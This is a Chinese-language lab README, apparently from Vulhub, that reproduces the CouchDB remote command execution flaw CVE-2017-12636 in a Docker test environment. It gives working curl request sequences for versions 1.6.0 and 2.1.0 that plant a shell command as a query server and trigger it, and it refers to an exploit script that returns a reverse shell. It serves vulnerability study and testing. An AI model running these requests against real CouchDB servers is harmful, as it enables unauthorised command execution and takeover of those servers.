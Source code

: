 # Couchdb 任意命令执行漏洞（CVE-2017-12636）

Apache CouchDB是一个开源数据库，专注于易用性和成为"完全拥抱web的数据库"。它是一个使用JSON作为存储格式，JavaScript作为查询语言，MapReduce和HTTP作为API的NoSQL数据库。应用广泛，如BBC用在其动态内容展示平台，Credit Suisse用在其内部的商品部门的市场框架，Meebo，用在其社交平台（web和应用程序）。

在2017年11月15日，CVE-2017-12635和CVE-2017-12636披露，CVE-2017-12636是一个任意命令执行漏洞，我们可以通过config api修改couchdb的配置`query_server`，这个配置项在设计、执行view的时候将被运行。

影响版本：小于 1.7.0 以及 小于 2.1.1

参考链接：

 - http://bobao.360.cn/learning/detail/4716.html
 - https://justi.cz/security/2017/11/14/couchdb-rce-npm.html

## 测试环境

Couchdb 2.x和和1.x的API接口有一定区别，所以这个漏洞的利用方式也不同。本环境启动的是1.6.0版本，如果你想测试2.1.0版本，可以启动[CVE-2017-12635](https://github.com/vulhub/vulhub/tree/master/couchdb/CVE-2017-12635)附带的环境。

执行如下命令启动Couchdb 1.6.0环境：

```
docker compose up -d
```

启动完成后，访问`http://your-ip:5984/`即可看到Couchdb的欢迎页面。

## 漏洞复现

该漏洞是需要登录用户方可触发，如果不知道目标管理员密码，可以利用[CVE-2017-12635](https://github.com/vulhub/vulhub/tree/master/couchdb/CVE-2017-12635)先增加一个管理员用户。

### 1.6.0 下的说明

依次执行如下请求即可触发任意命令执行：

```
curl -X PUT 'http://vulhub:vulhub@your-ip:5984/_config/query_servers/cmd' -d '"id >/tmp/success"'
curl -X PUT 'http://vulhub:vulhub@your-ip:5984/vultest'
curl -X PUT 'http://vulhub:vulhub@your-ip:5984/vultest/vul' -d '{"_id":"770895a97726d5ca6d70a22173005c7b"}'
curl -X POST 'http://vulhub:vulhub@your-ip:5984/vultest/_temp_view?limit=10' -d '{"language":"cmd","map":""}' -H 'Content-Type:application/json'
```

其中,`vulhub:vulhub`为管理员账号密码。

第一个请求是添加一个名字为`cmd`的`query_servers`，其值为`"id >/tmp/success"`，这就是我们后面待执行的命令。

第二、三个请求是添加一个Database和Document，这里添加了后面才能查询。

第四个请求就是在这个Database里进行查询，因为我将language设置为`cmd`，这里就会用到我第一步里添加的名为`cmd`的`query_servers`，最后触发命令执行。

### 2.1.0 下的说明

2.1.0中修改了我上面用到的两个API，这里需要详细说明一下。

Couchdb 2.x 引入了集群，所以修改配置的API需要增加node name。这个其实也简单，我们带上账号密码访问`/_membership`即可：

```
curl http://vulhub:vulhub@your-ip:5984/_membership
```

![](1.png)

可见，我们这里只有一个node，名字是`nonode@nohost`。

然后，我们修改`nonode@nohost`的配置：

```
curl -X PUT http://vulhub:vulhub@your-ip:5984/_node/nonode@nohost/_config/query_servers/cmd -d '"id >/tmp/success"'
```

![](2.png)

然后，与1.6.0的利用方式相同，我们先增加一个Database和一个Document：

```
curl -X PUT 'http://vulhub:vulhub@your-ip:5984/vultest'
curl -X PUT 'http://vulhub:vulhub@your-ip:5984/vultest/vul' -d '{"_id":"770895a97726d5ca6d70a22173005c7b"}'
```

Couchdb 2.x删除了`_temp_view`，所以我们为了触发`query_servers`中定义的命令，需要添加一个`_view`：

```
curl -X PUT http://vulhub:vulhub@your-ip:5984/vultest/_design/vul -d '{"_id":"_design/test","views":{"wooyun":{"map":""} },"language":"cmd"}' -H "Content-Type: application/json"
```

增加`_view`的同时即触发了`query_servers`中的命令。

## 利用脚本

写了一个简单的脚本 [exp.py](exp.py)，修改其中的target和command为你的测试机器，然后修改version为对应的Couchdb版本（1或2），成功反弹shell：

![](3.png)
